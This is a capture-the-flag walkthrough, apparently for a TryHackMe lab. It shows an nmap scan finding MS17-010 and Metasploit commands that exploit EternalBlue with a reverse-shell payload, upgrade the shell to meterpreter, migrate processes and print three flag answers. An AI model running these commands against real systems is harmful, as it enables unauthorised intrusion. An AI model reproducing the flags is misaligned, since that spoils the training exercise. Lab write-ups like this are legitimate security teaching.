

## Recon

#### Q1) Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)



### Q2) How many ports are open with a port number under 1000?
##### Answer: 3

### Q3) What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```bash
~$ nmap -p445 --script smb-vuln* 10.114.151.208
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-22 17:07 +0100
Nmap scan report for 192.168.17.136
Host is up (0.00043s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:76:83:1A (VMware)

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
##### Answer: ms17-010

## Gain Access

### Q1) Start metasploit

```bash
~$ msfconsole
```

### Q2) Find the exploitation code we will run against the machine. What is the full path of the code?

```bash
msfconsole> use exploit/windows/smb/ms17_010_eternalblue
```

### Q3) Show options and set the one required value. What is the name of this value?

```bash
msfconsole> set RHOSTS 10.114.151.208
```

### Q4) Run The exploit

```bash
msfconsole> set payload windows/x64/shell/reverse_tcp
msfconsole> exploit
```

## Escalate

### Q1)  Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

```bash
msfconsole> use post/multi/shell_to_meterpreter //You may not need to use it if you get meterpreter immedietly
```

### Q2) Show options, what option are we required to change?

```bash
msfconsole> set SESSION 1
```

### Q3,4,5,6) N/A

### Q7) See processes with 'ps' and migrate to last process

![[Screenshot 2026-07-22 21403qweq9.png]]

```bash
meterpreter> migrate 3052
```

## Cracking 

### Q1) What is the name of the non-default user?

![[Pasted image 20260722220856.png]]
##### Name is Jon

### Q2) Copy this password hash to a file and research how to crack it. What is the cracked password?

![[Screenshot 2026-07-22 214257.png]]

## Find Flags

```bash
meterpreter> search -f flag*
c:\\flag1.txt
c:\\windows\\system32\\config\\flag2.txt
c:\\Users\\Jon\\Documents\\flag3.txt

meterpreter> cat c:\\flag1.txt
flag{access_the_machine}
meterpreter> cat c:\\windows\\system32\\config\\flag2.txt
flag{sam_database_elevated_access}
meterpreter> cat c:\\Users\\Jon\\Documents\\flag3.txt
flag{admin_document_can_be_valuable}
```
